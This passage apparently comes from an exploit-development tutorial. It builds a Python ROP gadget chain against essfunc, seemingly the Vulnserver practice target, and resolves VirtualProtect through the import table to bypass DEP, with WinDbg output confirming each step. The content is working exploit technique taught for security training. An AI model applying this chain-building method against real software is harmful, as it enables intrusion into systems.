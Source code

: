 ```text
0x625012f6: pop edi ; pop ebp ; ret 
```

So, the sequence of gadgets would look something like this:

```python
rop += struct.pack('<L', 0x625012f7) # pop ebp ret
rop += struct.pack('<L', 0x625012f6) # pop edi ; pop ebp ; ret
rop += struct.pack('<L', 0x6250103d) # pop ebx ; ret
rop += struct.pack('<L', 0x62507120) # VirtualProtect IAT
rop += struct.pack('<L', 0x62501e30) # mov eax,  [ebx] ; mov  [esp+0x00], eax ; call ebp
rop += struct.pack('<L', 0x42424242) # junk to be overwritten by [esp + 0x00]
rop += struct.pack('<L', 0x62501d08) # ! int3 (breakpoint instruction) 
```

After incorporating this gadget chain into the proof-of-concept buffer, it's behavior can be observed in the debugger. At the first breakpoint:

```text
Breakpoint 0 hit
...
essfunc+0x12f7:
625012f7 5d              pop     ebp
```

Upon stepping over, `EBP` now points to the `pop/pop/ret` gadget:

```text
0:003> u ebp L3
essfunc+0x12f6:
625012f6 5f              pop     edi
625012f7 5d              pop     ebp
625012f8 c3              ret
```

The next gadget: `pop ebx ; ret` loads the `IAT` entry address of `VirtualProtect` into `EBX`, which is confirmed by stepping over it:

```text
0:003> r ebx
ebx=62507120
```

Next, the critical instruction that dereferences the DWORD from `EBX` into `EAX`:

```text
62501e30 8b03            mov     eax,dword ptr [ebx] 
```

Stepping over it confirms that `EAX` now holds the address of the `VirtualProtect` stub:

```text
0:003> u eax
KERNEL32!VirtualProtectStub:
77db5c80 8bff            mov     edi,edi
77db5c82 55              push    ebp
77db5c83 8bec            mov     ebp,esp
77db5c85 5d              pop     ebp
77db5c86 ff251888e177    jmp     dword ptr [KERNEL32!_imp__VirtualProtect (77e18818)]
```
